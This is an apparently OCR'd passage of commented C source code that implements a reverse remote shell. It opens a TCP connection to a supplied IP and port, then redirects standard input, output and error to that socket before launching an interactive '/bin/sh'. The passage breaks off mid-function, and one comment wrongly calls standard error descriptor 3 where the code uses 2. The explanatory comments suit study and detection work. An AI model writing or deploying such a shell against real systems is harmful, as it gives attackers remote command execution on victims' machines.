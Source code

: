 ```C
// Receives as parameters an IP address to connect to
// and a port. Then it creates a TCP socket (SOCK_STREAM)
// and fills in the data for connecting. The connection
// is effectively established after a successful execution
// of connect. In case of any error (creating the socket or
// connection) we just stop the application.
//
// Returns the file descriptor from where to send/receive
// client data
int
client_init (char *ip, int port)
{
        int s;
        struct sockaddr_in serv;

        printf ("+ Connecting to %s:%d\n", ip, port);

        if ((s = socket (AF_INET, SOCK_STREAM, 0)) < 0)
        {
                perror ("socket:");
                exit (EXIT_FAILURE);
        }

        serv.sin_family = AF_INET;
        serv.sin_port = htons(port);
        serv.sin_addr.s_addr = inet_addr(ip);

        if (connect (s, (struct sockaddr *) &serv, sizeof(serv)) < 0)
        {
                perror("connect:");
                exit (EXIT_FAILURE);
        }

        return s;
}


// Function that allow us to implement a reverse remote shell.
//
// It makes use of two system calls dup2 and execv. The first one
// duplicates a given file descriptor. In this case, the three
// calls at the beginning of the function, assigns the file
// descriptor received as parameter to the Standard Input (file
//  descriptor 0), Standard Output (file descriptor 1) and
// Standard Error (file descriptor 3).
//
// If the file descriptor we pass as a parameter is one of the
// sockets created with our previous client and server functions,
// we are effectively sending and receiving data through the
// network every time we write data to the console and we read data
// from stdin.
int
start_shell (int s)
{
        char *name[3];

        printf ("+ Starting shell\n");
        dup2 (s, 0);
        dup2 (s, 1);
        dup2 (s, 2);

        name[0] = "/bin/sh";
        name[1] = "-i";
```
